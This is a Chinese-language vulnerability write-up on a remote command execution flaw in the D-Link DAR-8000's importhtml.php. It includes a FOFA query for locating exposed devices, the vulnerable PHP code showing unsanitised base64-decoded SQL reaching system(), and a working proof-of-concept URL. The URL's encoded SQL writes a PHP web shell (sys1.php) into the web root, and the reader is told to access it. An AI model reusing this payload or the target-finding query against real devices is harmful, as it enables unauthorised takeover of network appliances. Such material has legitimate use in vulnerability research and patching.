 # D-Link DAR-8000 importhtml.php 远程命令执行漏洞

## 漏洞描述

D-Link DAR-8000 importhtml.php文件存在SQL注入导致 远程命令执行漏洞

## 漏洞影响

```
D-Link DAR-8000
```

## FOFA

```
body="mask.style.visibility"
```

## 漏洞复现

登录页面



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162227588.png)



出现漏洞的文件 **importhtml.php**

```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```

跟踪exportHtmlMail函数

```php
function exportHtmlMail($filename,$sql){
	Header( "Expires: 0" );
	Header( "Pragma: public" );
	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );
	Header( "Cache-Control: public");
	Header( "Content-Type: application/octet-stream" );
	header("Accept-Ranges: bytes");
	header("Content-Disposition: attachment; filename=$filename.html");
	echo "<html>\n";
	echo "<head><title>报表</title></head>\n";
	echo "<body>\n";
	$conn = connOther();
	$result = mysql_query($sql,$conn);
	while ($data= mysql_fetch_array($result)){
		$post_content = "";
		if($data['mail_file_path'] == "(null)"){
			$post_content = "<font color=red>内容审计未启用</font>";
		}
		else{
			$post_filename=$data['mail_file_path'];
			$ifother = "";
			$ifother = ifExistOther($post_filename);
			if($ifother!=""){
				$post_filename = $ifother;
			}
			$str = "/usr/bin/cap2con $post_filename pop";
			system($str,$returnvalue);
			$post_filename=str_replace(".cap",".eml",$post_filename);
			$post_content = file_get_contents($post_filename);
			$rec=new mime_decode;
			$post_content=$rec->decode_mime_string($post_content);
			//...
		}
	}
}
```

这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控

```php
$str = "/usr/bin/cap2con $post_filename pop";
```

验证POC

```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```

访问成功后会触发下载日志文件，再访问 sys1.php

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162227990.png)